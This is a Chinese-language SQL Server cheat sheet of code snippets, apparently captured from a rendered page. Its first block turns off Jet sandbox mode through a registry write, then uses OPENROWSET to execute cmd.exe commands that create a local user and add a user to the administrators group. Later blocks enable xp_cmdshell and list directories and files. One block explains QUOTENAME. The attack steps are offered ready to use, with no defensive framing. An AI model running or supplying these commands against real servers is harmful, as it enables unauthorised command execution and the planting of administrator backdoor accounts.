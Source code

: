 ```sql
-- note:什么是沙盒模式?沙盒模式是数据库的一种安全功能.在沙盒模式下,只对控件和字段属性中的安全且不含恶意代码的表达式求值.如果表达式不使用可能以某种方式损坏数据的函数或属性，则可认为它是安全的.

-- 首先开启沙盒模式：
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;
-- 然后利用jet.oledb执行系统命令
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c net user admintest admintest123 /add")')
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c net localgroup administrators test /add")')
-- 搞定 ^_^ !
dbcc addextendedproc ('xp_regread','xpstar.dll')
dbcc addextendedproc ('xp_regwrite','xpstar.dll')
```

## 文件操作

```sql
-- 历遍目录
exec master.dbo.xp_dirtree 'c:\'
-- 获取子目录
exec master.dbo.xp_subdirs 'c:\'
-- 判断目录或文件是否存在
exec master..xp_fileexist 'c:\boot.ini'
EXEC master..xp_cmdshell 'ipconfig'
```

## 查询问题

```sql
-- 简单来说吧比如你有一个表，名字叫 index你有一个动态查询，参数是表名
declare @tbname varchar(256)
set @tbname='index'
---查这个表里的数据：
print('select * from '+@tbname)
exec('select * from '+@tbname)
--这样print出来的数据是
select * from index
-- 因为index是字键字，肯定出错，加上括号就可以了：
select * from [index]
-- 这便有了QUOTENAME，即：
print('select * from '+QUOTENAME(@tbname))
--结果：select * from [index]
exec('select * from '+QUOTENAME(@tbname))
```

## 系统信息

```sql
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go
exec master..xp_cmdshell 'ipconfig'
```